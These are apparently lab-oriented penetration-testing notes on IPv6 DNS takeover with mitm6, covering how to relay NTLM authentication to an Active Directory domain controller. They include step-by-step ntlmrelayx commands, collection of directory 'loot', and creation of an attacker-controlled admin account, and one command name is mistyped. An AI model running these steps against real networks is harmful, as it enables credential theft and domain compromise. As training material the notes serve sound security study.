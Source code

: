 # IPv6 Attacks Overview

## How Does it Work

* IPv4 is usually utilized, and IPv6 is sometimes turned on but not used
* Windows calls out to a non-existent IPv6 DNS server
* that means there is NO DNS server for IPv6, so you can setup an attacker machine as IPv6 DNS
* you can gain authenticate to the Domain Controller through LDAP or SMB
* you can grab NTLM hashes, just like Responder

## IPv6 DNS Takeover with via mitm6

* [https://github.com/fox-it/mitm6](https://github.com/fox-it/mitm6)
* may have to downgrade mitm6 if there are problems

### Step 1: Spin up mitm6

```bash
mitm -d marvel.local
```

### Step 2: Setup Relay Attack

```bash
ntlmrelayx.py -6 -t ldaps://<domain controller ip> -wh fakewpad.marvel.local -l lootmefile
```

### Step 3: Wait for IPv6 to try to find a DNS

* in lab enviroments, reboot the machine to force this step
* elsewhere, you must wait, roughly ever 30 minutes.

### Step 4: Check the LootMeFile

```bash
cd lootmefile
```

```bash
firefox domain_users_by_group.html
```

* this has tons of juicy information

### Note: If an Admin logs in, it will try to make you an Admin account

* it will output a username and password for you, meaning you own the domain
* it edits the ACL for the user and stores a file called ACLPWN to restore back to the original ACL

## Other Cool Attacks with mitm6 and Resources

* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberosdelegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
* [https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)


